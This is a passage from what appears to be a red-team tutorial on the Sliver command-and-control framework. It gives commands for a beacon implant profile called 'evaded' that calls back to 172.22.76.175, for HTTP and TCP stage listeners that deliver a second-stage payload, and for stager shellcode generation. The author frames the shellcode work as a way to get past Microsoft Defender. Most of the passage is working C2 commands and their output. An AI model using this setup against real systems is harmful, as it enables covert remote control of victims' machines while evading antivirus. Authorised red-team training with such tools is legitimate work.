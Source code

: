 We now create a profile, because stager only works with profiles. We want to use stager because of the variety of format we can get in comparison to just an implant.

We configure our profile for beacon mode, a csharp format, and the the call back port number to 8088.

```bash
[server] sliver > profiles new beacon --http 172.22.76.175:8088 --format shellcode evaded

[*] Saved new implant profile (beacon) evaded

[server] sliver >
```

We then create the listener for the profile,  to catch the second stage of the payload

```bash
[server] sliver > http -L 172.22.76.175 -l 8088

[*] Starting HTTP :8088 listener ...
[*] Successfully started job #8

[server] sliver >
```

Now, we create the stager listener for the first stage of the payload, and link it to the profile, else, the second stage listener, will not be reach by our payload, this explains the importance of the profile as well, in addition to being a benchmark configuration for all stager linked to the profile.

```bash
[server] sliver > stage-listener --url tcp://172.22.76.175:4443 --profile evaded

[*] No builds found for profile evaded, generating a new one
[*] Sliver name for profile evaded: FRENCH_PHRASE
[*] Job 9 (tcp) started
```

The stage listener generates a shellcode whilst creating the listener available to us at `172.22.76.175:4443/FRENCH_PHRASE.woff`. see documentation on stager here https://sliver.sh/docs?name=Stagers

However, we are not doing that, I have gone through the documentation mentioned above and that method does trigger MS Defender unfortunately, even using an encrypted stager.

Though Sliver already have a shellcode generated at 172.22.76.175:4443/french_phase.woff, let us generate another with the format csharp even though that will give us a hexadecimal format shellcode that is not available from implants.

```bash
[server] sliver > help generate stager

Command: generate stager <options>
About: Generate a new sliver stager shellcode and saves the output to the cwd or a path specified with --save, or to stdout using --format.

++ Bad Characters ++
Bad characters must be specified like this for single bytes:

generate stager -b 00

And like this for multiple bytes:

generate stager -b '00 0a cc'

++ Output Formats ++
You can use the --format flag to print out the shellcode to stdout, in one of the following transform formats:
bash c csharp dw dword hex java js_be js_le num perl pl powershell ps1 py python raw rb ruby sh vbapplication vbscript
```